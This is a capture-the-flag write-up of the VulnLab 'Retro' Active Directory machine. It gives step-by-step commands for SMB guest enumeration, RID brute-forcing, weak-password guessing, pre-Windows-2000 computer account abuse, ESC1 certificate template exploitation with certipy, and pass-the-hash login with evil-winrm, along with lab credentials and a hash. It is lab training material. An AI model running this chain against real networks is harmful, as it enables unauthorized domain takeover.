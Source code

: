 ```yaml
---
title: VulnLab -- Retro Writeup
date: 2025-03-30 00:00:00 +0800
categories: [windows machine]
tags: [Active Directory,ESC1,ADCS,pre2k]
image:
    path: images/retro-banner.png
---
```

# Retro

Hello Friends,

Remo is Back

In this write-up, I’ll walk through how I pwned the **Retro** machine from **VulnLab**. From initial enumeration to gaining root access, I’ll explain the key steps, tools, and techniques used to complete the box.

![image.png](../images/retro-banner.png)

Let’s start by scanning the machine.

```bash
sudo nmap -sC -sV -sS -O -A -oN scanned.txt -p 593,3389,139,3268,636,49670,49669,389,445,135,49673,464,49664,49668,9389,53,49716 --min-rate=1000 10.10.95.73
```

![image.png](../images/retro.png)

now let’s try to enumerate the shares

```bash
nxc smb retro.vl -u 'guest' -p '' --shares --users
```

![image.png](../images/retro%201.png)

we found a share named Trainees so let’s connect to it 

```bash
smbclient \\\\retro.vl\\Trainees -U "retro.vl\guest"
```

![image.png](../images/retro%202.png)

As we see there is a file named Important so let’s download it and see it’s content

```bash
 get Important.txt
```

![image.png](../images/retro%203.png)

> Notice that we found a note saying that the students can’t remember strong passwords which mean that there password is weak
> 

Now let’s get the usernames

```bash
nxc smb retro.vl -u 'guest' -p '' --rid-brute 10000
```

![image.png](../images/retro%204.png)

Now let’s save the whole result in a file and extract the names

```bash
cat result.txt | grep -i SidTypeUser | awk '{print $6}' | cut -d "\\" -f 2 > users.txt
```

![image.png](../images/retro%205.png)

and we got the users names

Now let’s test the user trainee with the password is the username and see if we can login

```bash
nxc smb retro.vl -u trainee -p trainee
```

![image.png](../images/retro%206.png)

> And we are authenticated!
> 

Now let’s enumerate the shares with the new user

```bash
nxc smb retro.vl -u trainee -p trainee --shares
```

![image.png](../images/retro%207.png)

Notice that we got access to the notes share so let’s go and connect to it

```bash
smbclient \\\\retro.vl\\Notes -U "retro.vl\trainee"
```

![image.png](../images/retro%208.png)

and we got access to a ToDo file so let’s download it and see it’s content

```bash
get ToDo.txt
```

![image.png](../images/retro%209.png)

> Notice that the note is referring that the environment have a pre created computer account so let’s try to abuse it
> 

Now let’s search for the pre created computer accounts and it’s passwords

```bash
poetry run pre2k auth -u trainee -p trainee -d retro.vl -dc-ip 10.10.95.73
```

![image.png](../images/retro%2010.png)

> Amazing we found that there is a computer named BANKING$ with password banking
username: BANKING$
password: banking
> 

now let’s get bloodhound 

```bash
bloodhound-python -ns 10.10.95.73 -d retro.vl -u trainee -p trainee -c all --zip
```

![image.png](../images/retro%2011.png)

Now open the bloodhound and let’s search for any interesting information 

![image.png](../images/retro%2012.png)

and we didn’t find anything interesting

let’s search for the certificate templates in the enviroment

```bash
 certipy-ad find -u trainee@retro.vl -p trainee -dc-ip 10.10.95.73
```

![image.png](../images/retro%2013.png)

Now let’s search for any ESC to abuse

```bash
cat 20250328163600_Certipy.txt | grep -i ESC -b40
```

![image.png](../images/retro%2014.png)

notice that we found a ESC1 vulnerability in a template named RetroClients and we can abuse it using the Banking$ computer we have

 Now let’s change the password of the banking computer

```bash
impacket-changepasswd retro.vl/BANKING$:banking@10.10.95.73 -altuser trainee -altpas trainee
```

![image.png](../images/retro%2015.png)

now let’s abuse the Vulnerable template

```bash
certipy-ad req -ca 'retro-DC-CA' -dc-ip '10.10.95.73' -u 'BANKING$' -p 'remo123$' -template 'RetroClients' -target 'dc.retro.vl' -upn 'administrator@retro.vl' -key-size 4096
```

![image.png](../images/retro%2016.png)

now let’s retrive the administrator hash

```bash
certipy-ad auth -pfx administrator.pfx
```

![image.png](../images/retro%2017.png)

So as we have the administrator hash let’s go and login using it.

```bash
evil-winrm -i retro.vl -u administrator -H 252fac7066d93dd009d4fd2cd0368389
```

![image.png](../images/retro%2018.png)

and we did it we logged in as administrator 🥳 

No let’s go and get the root flag

```bash
cd C:\Users\Administrator\desktop
```

![image.png](../images/retro%2019.png)

Amazing we solved the machine 😍

![image.png](../images/retro%2020.png)

That’s it for the **Retro** machine! This challenge was a great test of enumeration and exploitation skills. Hope you found the write-up useful.

Remo

CRTE | CRTP | CRTO | eWPTX | eCPPT | eMAPT